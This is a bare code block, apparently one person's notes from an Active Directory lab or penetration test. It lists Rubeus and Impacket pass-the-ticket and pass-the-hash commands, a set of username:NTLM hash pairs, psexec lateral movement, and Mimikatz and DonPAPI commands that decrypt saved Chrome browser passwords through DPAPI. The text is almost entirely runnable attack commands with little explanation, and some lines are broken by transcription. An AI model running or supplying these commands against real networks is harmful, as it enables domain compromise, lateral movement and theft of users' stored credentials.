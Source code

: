 ```

rubeus.exe ptt /ticket:

klist

psexec.exe -accepteula 
\\
viperwarhawk
 cmd

rubeus.exe asktgt /domain:kinetic.corp /user:case /rc4:76e1f33b798c3cd6ed74620d21a33299 /ptt

psexec.exe -accepteula 
\\
viperwarhawk
 cmd

## Pass The Ticket (PTT)

whoami /user

python3 getTGT.py kinetic/kram -dc-ip 10.65.1.20 -hashes :facdafa55f0a85ceaf649f33cbca001a

ntpdate 10.65.1.20

python3 ticketConverter.py kram.ccache kram.kirbi

export KRB5CCNAME=/opt/impacket/examples/kram.kirbi

python3 psexec.py kinetic/kram@polar -k -no-pass

python3 getTGT.py kinetic/case -dc-ip 10.65.1.20 -hashes :76e1f33b798c3cd6ed74620d21a33299

python3 getTGT.py zero/zonia -dc-ip 10.65.20.20 -hashes :fbd22237b572e96f60c60937accd2001

case:76e1f33b798c3cd6ed74620d21a33299

kram:facdafa55f0a85ceaf649f33cbca001a

cyn:0dcd2a213251434b8b975a7ace3c2800

krupp:f9383fe5e2b40087d129e12a32c1077e

zonia:fbd22237b572e96f60c60937accd2001

## DPAPI

python3 DonPAPI.py ivory@area72 --hashes aad3b435b51404eeaad3b435b51404ee:f6cea93139ed5c1650951d8cad886346

cd "C:\Users\ivory\AppData\Local\Google\Chrome\User Data\Default"

dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect

python3 psexec.py ivory@area72 -hashes aad3b435b51404eeaad3b435b51404ee:f6cea93139ed5c1650951d8cad886346

sekurlsa::dpapi

dpapi::chrome /in:"C:\Users\ivory\AppData\Local\Google\Chrome\User Data\Default\Login Data" /masterkey:95ba88c28c65cdd5fe5c0fee398800634c60ef5fb53d5f15c18bf240c1001920ed7202b2d495ca97e1c16cb7842cad8a6c4af568ea681aa1e04f4e93b8d81992

```